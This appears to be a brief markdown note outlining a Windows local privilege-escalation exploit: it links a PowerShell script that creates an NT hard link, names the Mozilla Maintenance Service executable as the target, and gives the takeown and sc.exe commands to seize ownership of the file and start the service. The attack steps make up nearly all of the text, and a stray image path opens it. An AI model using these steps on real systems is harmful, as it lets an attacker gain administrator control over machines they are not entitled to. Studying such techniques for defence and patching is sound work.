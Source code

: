 NT hard link: https://raw.githubusercontent.com/decoder-it/Hyper-V-admin-EOP/master/hyperv-eop.ps1

**Target File
```
C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe
```

- Run powershell script

**Taking Ownership of the File
```
takeown /F C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe
```

**Starting the Mozilla Maintenance Service
```
sc.exe start MozillaMaintenance
```

